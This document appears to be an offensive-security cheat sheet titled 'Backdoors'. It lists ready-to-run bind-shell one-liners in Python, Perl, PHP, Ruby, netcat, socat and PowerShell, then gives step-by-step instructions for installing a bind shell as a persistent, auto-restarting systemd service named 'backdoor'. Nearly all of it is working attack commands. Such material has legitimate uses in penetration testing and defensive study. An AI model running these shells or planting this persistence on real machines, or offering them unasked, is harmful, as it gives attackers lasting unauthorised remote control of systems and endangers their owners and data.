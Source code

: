 # Backdoors

## Oneliner Bind-shell(s)
### Python
```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.bind(("0.0.0.0", 5555)); s.listen(1); conn,addr=s.accept(); os.dup2(conn.fileno(),0); os.dup2(conn.fileno(),1); os.dup2(conn.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'

```

### Perl
```bash
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

### PHP
```bash
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

### Ruby
```bash
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

### Netcat Traditional
```bash
nc -nlvp 51337 -e /bin/bash
```

### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

### Socat
```bash
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

### Powershell
```bash
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
<br><br>

# Persistent Backdoor Setup

---

## **Step 1: Move the Script to a Persistent Location**
Move your Python bind shell script to `/usr/local/bin/` and make it executable:

```bash
sudo mv your_script.py /usr/local/bin/shell.py
sudo chmod +x /usr/local/bin/shell.py
```

## **Step 2: Create a Systemd Service File**

```bash
sudo nano /etc/systemd/system/backdoor.service
```

## **Step 3: Add the following content:**

```bash
[Unit]
Description=Persistent backdoor
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 /usr/local/bin/shell.py
Restart=always

[Install]
WantedBy=multi-user.target

```

## **Step 4: Enable and Start the Service**

```bash
sudo systemctl enable backdoor.service
sudo systemctl start backdoor.service

```

## **Step 5: Verify Service Status**

```bash
sudo systemctl status backdoor.service
```

## **Step 6: Stop and Remove the Service (If Needed)**

```bash
sudo systemctl stop backdoor.service
sudo systemctl disable backdoor.service
sudo rm /etc/systemd/system/backdoor.service
sudo systemctl daemon-reload
```
